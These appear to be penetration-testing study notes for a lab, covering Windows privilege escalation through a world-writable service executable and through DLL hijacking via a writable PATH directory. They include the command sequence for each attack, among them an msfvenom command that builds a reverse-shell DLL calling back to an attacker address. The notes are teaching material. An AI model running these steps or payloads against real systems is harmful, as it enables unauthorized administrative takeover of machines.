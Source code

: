 ### Privilege Escalation
1) Run winPEAS to check for service misconfigurations:
	1) `.\winPEASany.exe quiet servicesinfo`
2) Note that the `filepermsvc` service has an executable which appears to be writable by everyone. We can confirm this with `accesschk.exe` or `icacls`:
	2) `icacls "C:\Program Files\File Permissions Service\filepermservice.exe"`
	3) `.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
3) Create a backup of the original service executable:
	1) `copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp`
4) Copy the reverse shell executable to overwrite the service executable:
	2) `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"`
		1) *Note: `/Y` suppresses prompting to confirm that you want to overwrite an existing destination file*
5) Start a listener, then start the service to trigger the exploit:
	1) `net start filepermsvc`

### **8.5) DLL Hijacking**
Often a service will try to load DLL. If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in.

Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual. (`ProcMon.exe`)


Run `string64.exe` from Sysinternals to check if any DLL references are apparent.
### Privilege Escalation
1) Use `Get-ModifiableServiceFile` from **PowerUp.ps1**
2) Use WinPEAS to enumerate non-Windows services:
	1) `.\winPEASany.exe quiet servicesinfo`
2) Note that the `C:\Temp` directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:
	2) `.\accesschk.exe /accepteula -uvqc user dllsvc`
3) The `dllsvc` service is vulnerable to DLL Hijacking. According to the WinPEAS output, the service runs the `dllhijackservice.exe` executable. We can confirm this manually:
	1) `sc.exe qc dllsvc`
4) Run `Procmon64.exe` with administrator privileges. Press CTRL+L to open the Filter menu
5) Add a new filter on the **Process Name** matching `dllhijackservice.exe`
6) Add a new filter on the **Operation** so it **is** **CreateFile** 
	1) This will show all files (including DLLs) that the program opens
7) On the main screen, deselect **registry activity** and **network activity**
8) Start the service
	1) `net start dllsvc`
9) Back in Procmon, observe any "**NAME NOT FOUND**" errors, associated with the missing DLL
10) At some point, Windows tries to find the file in the `C:\Temp` directory, which as we found earlier, is writable by our user
11) On Kali, generate a reverse shell DLL named `hijackme.dll`:
	1) `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.50.111 LPORT=443 -f dll -o hijackme.dll`
	2) Alternatively, can use `adduser.c below
12) Copy the DLL to the Windows VM and into the `C:\Temp` directory. Start a listener, then stop/start the service to trigger the exploit:
	2) `net stop dllsvc`
	3) `net start dllsvc`
